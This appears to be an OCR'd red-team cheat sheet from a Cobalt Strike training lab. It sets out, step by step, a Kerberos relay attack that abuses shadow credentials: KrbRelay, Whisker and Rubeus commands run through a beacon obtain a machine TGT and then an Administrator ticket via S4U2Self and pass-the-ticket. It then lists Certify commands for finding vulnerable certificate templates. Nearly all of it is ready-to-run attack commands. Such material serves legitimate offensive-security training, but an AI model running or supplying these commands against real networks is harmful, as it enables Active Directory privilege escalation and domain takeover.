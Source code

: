    #----------------------------------------------------------------------------------
      
    # 3- Using Kerberos Relay Attack with Shadow Credential Abuse
    # The advantage of using shadow credentials over RBCD is that we don't need to add a fake computer to the domain.
      
    # 3.1 - Verify that WKSTN-2 (Target Machine) has nothing in its  msDS-KeyCredentialLink attribute.
    beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:wkstn-2$
      
    # 3.2 - Run KrbRelay as before (in Kerberos Relay with RBCD above), but this time   with the  -shadowcred parameter.
    # if gets error like  (0x800706D3): The authentication service is unknown. then reboot the machine
    beacon> execute-assembly C:\Tools\KrbRelay\KrbRelay\bin\Release\KrbRelay.exe -spn ldap/dc-2.dev.cyberbotic.io -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred -port 10
      
    # 3.3 - Like Whisker does, KrbRelay provides Rubeus command that will request a TGT for WKSTN-2. However, it will return an RC4 ticket so if you want an AES instead, do.
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-2$ /certificate:MIIJyA[...snip...]QCAgfQ /password:"06ce8e51-a71a-4e0c-b8a3-992851ede95f" /enctype:aes256 /nowrap
      
    # 3.4 - The S4U2Self trick can then be used to obtain a HOST service ticket like we did with RBCD.
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:host/wkstn-2 /user:wkstn-2$ /ticket:doIGkD[...snip...]5pbw== /ptt

Active Directory Certificate Services

# Finding Certificate Authorities
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas /domain:dev.cyberbotic.io

# Miconfigured Certificate template (By dafault /vulnerable parameter looks only for Domain Users group in Enrollment Rights)
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /enrolleeSuppliesSubject

